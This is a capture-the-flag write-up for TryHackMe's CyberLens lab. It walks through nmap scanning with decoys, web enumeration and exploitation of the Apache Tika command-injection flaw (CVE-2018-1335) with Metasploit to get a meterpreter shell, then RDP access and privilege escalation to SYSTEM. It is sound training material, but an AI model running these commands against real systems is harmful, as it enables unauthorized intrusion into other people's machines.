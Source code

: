 
![intro](https://github.com/user-attachments/assets/341efde7-07e4-4e6d-b9c4-11cd22bd43ab)

# tryhackme-CTF-writeup-for-cyberLens

This is a walkthrough for the tryhackme CTF CyberLens. I will not provide any flags or passwords as this is intended to be used as a guide.

# Challenge Description

![description](https://github.com/user-attachments/assets/5e04f23a-a20b-4455-a22d-55edde6b6ff9)

As per the instructions, let's add the IP to our /etc/hosts file:
```bash
sudo echo '10.10.179.83 cyberlens.thm' >> /etc/hosts
```

Scanning/Reconnaissance
First off, let's store the target IP as a variable for easy access.

Command: export ip=xx.xx.xx.xx

Next, let's run an nmap scan on the target IP:

nmap -A -v $ip -D RND:10 -oN nmap.txt
Command break down:

-A: This flag enables aggressive scanning. It combines various scan types (like OS detection, version detection, script scanning, and traceroute) into a single scan.

-v: increases verbosity, providing more detailed output during the scan.

—$ip: provides the target IP we stored as the variable $ip.

-D RND:10 Nmap can send additional packets to confuse network intrusion detection systems (IDS) or hide the true source of the scan by randomly selecting up to 10 decoy IP addresses.

-oN nmap.txt: This option specifies normal output that should be saved to a file named “nmap.txt.

This scan reveals a few open ports that will prove very useful:

![nmap1](https://github.com/user-attachments/assets/1e85694b-46d2-472b-b25c-96d0bef09555)
![nmap2](https://github.com/user-attachments/assets/f4c98a3f-721a-4082-8536-284be0651ac9)

Let's head to web sever on port 80. There is an upload image function. I'm going to run further scans using ffuf, gobuster and nikto for further enumeration:
```bash
ffuf -u http://$ip/FUZZ -w /usr/share/wordlists/dirb/common.txt
```
gobuster dir -u $ip -w=/usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words.txt -x php,txt -o buster.txt
```
```bash
nikto -h $ip | tee nikto.txt
```
There are some directories that could prove useful:

![gobuster](https://github.com/user-attachments/assets/cf13212b-f7ce-4698-afdd-28f13257f9fa)

![nikto](https://github.com/user-attachments/assets/40632bb4-ccbc-4c1c-90a7-8752317b2d1d)

In the /js directory there is a js file that contains "fetch("http://localhost:61777/meta":

![extractor js](https://github.com/user-attachments/assets/5077b3c7-30a8-4b63-b402-d138f1e64467)

I ran an nmap scan on port 61777 but it didn't yeild much info.

![nmap61777](https://github.com/user-attachments/assets/c04c9ef6-86e1-4340-8c9a-0ed26484fa04)

I'll go ahead and visit the IP on this port.

We get a Tika 1.17 welcome:

![Tika 1 17](https://github.com/user-attachments/assets/a2d37890-2b70-4e02-b44a-12fa96ff247b)

I did a google search for Tika 1.17 exploit, and checked out this Header Command Injection(Metasploit) exploit. 

![headercommandinjection](https://github.com/user-attachments/assets/39a5d4c3-6ac4-4796-a127-d17c7ce2af2b)

I'm going to open up msfconsole and search for this exploit.

![msf1](https://github.com/user-attachments/assets/3f8fb7e6-7f58-43c6-9ae9-c336b6031038)

Payload information:

Description:
  This module exploits a command injection vulnerability in Apache 
  Tika 1.15 - 1.17 on Windows. A file with the image/jp2 content-type 
  is used to bypass magic bytes checking. When OCR is specified in the 
  request, parameters can be passed to change the parameters passed at 
  command line to allow for arbitrary JScript to execute. A JScript 
  stub is passed to execute arbitrary code. This module was verified 
  against version 1.15 - 1.17 on Windows 2012. While the CVE and 
  finding show more versions vulnerable, during testing it was 
  determined only > 1.14 was exploitable due to jp2 support being 
  added.

References:
  https://www.exploit-db.com/exploits/46540
  
  https://rhinosecuritylabs.com/application-security/exploiting-cve-2018-1335-apache-tika/
  
  https://lists.apache.org/thread.html/b3ed4432380af767effd4c6f27665cc7b2686acccbefeb9f55851dca@%3Cdev.tika.apache.org%3E
  
  https://nvd.nist.gov/vuln/detail/CVE-2018-1335

msf6 exploit(windows/http/apache_tika_jp2_jscript) > set rhosts 10.10.179.83

rhosts => 10.10.179.83

msf6 exploit(windows/http/apache_tika_jp2_jscript) > set rport 61777

rport => 61777

msf6 exploit(windows/http/apache_tika_jp2_jscript) > exploit

meterpreter > 

![meterpreter1](https://github.com/user-attachments/assets/acc264f0-ebee-4d8a-af21-ef4617749a9f)

Now to explore the file system and find the first flag.

c:\Users\CyberLens\Desktop>type user.txt

type user.txt

I then did more exploring of the cyberlens dir, and came across this password:

c:\Users\CyberLens\Documents\Management>type cyberlens-management.txt

type cyberlens-management.txt

Remember, manual enumeration is often key in an engagement ;)

CyberLens

Next, I followed the hint for the root flag:

RDP will make your life easier. If Remmina is not working, try this: rdesktop -u [user] -p [password] -N cyberlens.thm:3389
The tryhackme Kali attack box doesn't have rdestop so I used thsi instead:

xfreerdp /u:CyberLens /p:<password> /v:10.10.179.83:3389

# Exploitation

After looking around for a bit I decided to used the local_exploit_suggester on msfconsole:


![msf_recon](https://github.com/user-attachments/assets/7feb893b-a2d4-4d48-82b4-3fada152f410)

And the first one looks promising:

![recon results](https://github.com/user-attachments/assets/7944f784-ff09-41d7-9321-c135906bf03d)

![exploited](https://github.com/user-attachments/assets/8423b63f-ccd2-48a0-a6e9-680446221fd4)

And we are now nt authority\system! The admin.txt is on the desktop, just like user.txt was. I hope you enjoyed this CTF!
